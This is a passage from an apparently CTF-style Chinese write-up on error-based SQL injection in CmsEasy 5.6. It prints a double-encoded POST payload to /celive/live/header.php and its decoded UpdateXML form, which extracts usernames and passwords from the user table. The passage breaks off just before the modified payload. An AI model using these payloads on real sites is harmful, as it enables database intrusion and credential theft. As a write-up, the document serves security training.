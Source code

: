 ##  报错注入

找到了cms版本，接下来就是百度该cms的漏洞了。（具体原理看下方链接）

[cmseasy CmsEasy_5.6_20151009 无限制报错注入（parse_str()的坑） - 羊小弟 - 博客园](https://www.cnblogs.com/yangxiaodi/p/6963624.html "cmseasy CmsEasy_5.6_20151009 无限制报错注入（parse_str()的坑） - 羊小弟 - 博客园")

我们获得了payload

```
url: /celive/live/header.php

post：

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx%2527%252C%2528UpdateXML%25281%252CCONCAT%25280x5b%252Cmid%2528%2528SELECT%252f%252a%252a%252fGROUP_CONCAT%2528concat%2528username%252C%2527%257C%2527%252Cpassword%2529%2529%2520from%2520user%2529%252C1%252C32%2529%252C0x5d%2529%252C1%2529%2529%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%2529--%2520</q></xjxquery>
```

这里是经过了二次编码，所以我们URL解码看看payload，方便我们通过这个题目稍微修改下。百度在线网站解码

![](img/42f16896d6f1a8c3ee1c75d85bc77c71.png)

**解码后**

```
 xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx'，
(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from cmseasy_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery> 
```

这里是查找cmseasy_user的表信息，也就是用户的账户密码，可是使用不了（出题人修改了表名）

那怎么办？

**既然注入存在，我们自行修改语句，从爆表开始。这里就需要有一点报错注入的基础了，下面文章讲到了报错注入。**

[i春秋CTF-训练营 SQL注入-2 一鱼三吃 sqlmap bp手注 python脚本_AAAAAAAAAAAA66的博客-CSDN博客](https://blog.csdn.net/AAAAAAAAAAAA66/article/details/121638753 "i春秋CTF-训练营 SQL注入-2 一鱼三吃 sqlmap bp手注 python脚本_AAAAAAAAAAAA66的博客-CSDN博客")

[SQL注入之错误注入_基于updatexml()_wangyuxiang946的博客-CSDN博客](https://blog.csdn.net/wangyuxiang946/article/details/118084345 "SQL注入之错误注入_基于updatexml()_wangyuxiang946的博客-CSDN博客")

修改后的payload
